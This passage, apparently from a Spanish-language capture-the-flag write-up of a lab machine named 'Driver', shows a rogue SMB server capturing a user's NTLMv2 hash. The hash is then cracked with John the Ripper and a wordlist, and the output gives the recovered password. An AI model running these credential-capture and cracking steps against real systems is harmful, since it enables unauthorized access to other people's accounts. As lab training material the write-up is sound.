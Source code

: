 Obtenemos el hash `NTLMV2` del usuario que ha visto el archivo

```
# impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.190.165,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:14978114132cb09c7f1553f8b29cd12e:010100000000000080d84eff0ee1da0173d225b49ffbe225000000000100100041007700580062005800640063007100030010004100770058006200580064006300710002001000510074006b004100620064007800470004001000510074006b00410062006400780047000700080080d84eff0ee1da010600040002000000080030003000000000000000000000000020000072a19e6bb6ea3d05498b88b7dfbede2c690b42f15a82398bc73d563d078501200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0031003600000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.129.190.165,49414)
[*] Remaining connections []
```
## Intrusión

Los hashes `NTLMV2` no se pueden usar para hacer `pass the hash`, lo único que se puede hacer es intentar `crackearlos`, para ello nos creamos un archivo con el `hash`

```
tony::DRIVER:aaaaaaaaaaaaaaaa:14978114132cb09c7f1553f8b29cd12e:010100000000000080d84eff0ee1da0173d225b49ffbe225000000000100100041007700580062005800640063007100030010004100770
058006200580064006300710002001000510074006b004100620064007800470004001000510074006b00410062006400780047000700080080d84eff0ee1da01060004000200000008003000300000000000000000000
0000020000072a19e6bb6ea3d05498b88b7dfbede2c690b42f15a82398bc73d563d078501200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e003100360
02e0031003600000000000000000000000000
```

`Rompemos` el `hash` con john

```
# john -w:rockyou.txt hash_NTLMV2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2024-07-28 18:58) 12.50g/s 409600p/s 409600c/s 409600C/s softball27..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

